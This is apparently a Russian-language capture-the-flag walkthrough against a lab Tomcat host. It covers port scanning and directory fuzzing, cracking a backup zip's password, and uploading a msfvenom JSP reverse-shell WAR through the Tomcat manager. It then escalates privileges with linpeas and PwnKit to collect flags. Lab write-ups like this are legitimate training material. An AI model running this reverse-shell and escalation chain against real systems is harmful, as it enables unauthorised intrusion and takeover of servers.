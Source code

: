 
> [!tip]- Nmap
>nmap 192.168.68.61 --open -p- -Pn                                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-01 17:31 MSK
Nmap scan report for 192.168.68.61
Host is up (0.00059s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

> [!tip]- Nmap -sV
>22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
|   256 f2:a6:62:d7:e7:6a:94:be:7b:6b:a5:12:69:2e:fe:d7 (ECDSA)
|_  256 28:e1:0d:04:80:19:be:44:a6:48:73:aa:e8:6a:65:44 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat 9.0.53
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.53
MAC Address: 28:CD:C4:B8:39:67 (Chongqing Fugui Electronics)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernely

>[!tip]- Изучение сайтов
>
192.168.68.61:80 - пустой апач
92.168.68.61:8080 - Tomcat 
>##### ![[Pasted image 20241001175009.png]]  **FFUF  с seclists** 
==backup.zip==              
docs                    
docs/                   
examples                
examples/               
examples/servlets/servlet/RequestHeaderExample 
examples/servlets/servlet/CookieExample 
manager                
readme.txt              
manager/status/all      [
manager/                [
examples/jsp/snp/snoop.jsp 
manager/html       
examples                
host-manager            
manager                 
examples/jsp/index.html 
manager/html/*           
manager/jmxproxy/*       
manager/jmxproxy         
examples/jsp/snp/snoop.jsp 
examples/servlets/index.html 
manager/status/*        
manager/status.xsd         
 ==**Пользователи найденные в manager**==  
 admin 
 manager
 role1
 role
 root
 tomcat
 both
 QCC
 j2deployer
 ovwebusr 
 cxsdk
 ADMIN
 xampp

качаем backup.zip и получаем его hash:
zip2john backup.zip

запускаем hashcat: hashcat -a 0 - m 17220 'hash' rockyou.txt

получаем пароль для доступа к manager на сайте

создаем web-shell `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war` и загружаем его в manager

запускаем nc -nvlp PORT и переходим на сайт шелла

улучшаем шелл  python3 -c 'import pty;pty.spawn("/bin/bash")' и забираем флаг в /home/randy

проверяем файлы доступные для записи: find / -writable -type d 2>/dev/null и переходим в /tmp

стартуем хттп сервер и загружаем с него linpeas на машину жертвы. Выдаем права и запускаем

В ходе работы linpeas мы видим что можем использовать ранее найденный Dirty-Pipe. Попробуем запустить и получаем ошибку так нет компилятора gcc
Устанавливаем PwnKit и загружает на машину жертвы. 
Выдаем права для PwnKit,и запускаем
![](../../../attachment/Pasted%20image%2020241004184936.png)
Забираем последний флаг










